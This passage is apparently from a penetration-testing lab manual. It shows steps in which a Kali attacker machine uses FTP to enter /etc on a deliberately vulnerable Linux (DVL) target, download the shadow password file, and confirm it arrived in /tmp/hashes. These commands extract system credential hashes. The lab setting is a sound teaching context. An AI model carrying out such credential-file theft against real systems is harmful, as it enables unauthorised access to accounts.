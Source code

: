 9\. Change to the /etc directory.

ftp\> cd /etc

> <img src="./media/image27.png" style="width:3.16667in;height:0.68056in"
> alt="A black background with white text Description automatically generated" />

10\. Download the local shadow file on the DVL system via FTP.

ftp\> get shadow

> <img src="./media/image28.png" style="width:6.84722in;height:1.44444in"
> alt="A screen shot of a computer Description automatically generated" />

11\. After the shadow file successfully downloads, close the FTP
session.

ftp\> exit

> <img src="./media/image29.png" style="width:3.47222in;height:0.68056in"
> alt="A red and blue text Description automatically generated" />
>
> 12\. Verify that the shadow file has transferred into the current
> directory (/tmp/hashes).
>
> root@Kali-Attacker:/tmp/hashes# ls -l
>
> <img src="./media/image30.png" style="width:5.26389in;height:1.69444in"
> alt="A screenshot of a computer screen Description automatically generated" />
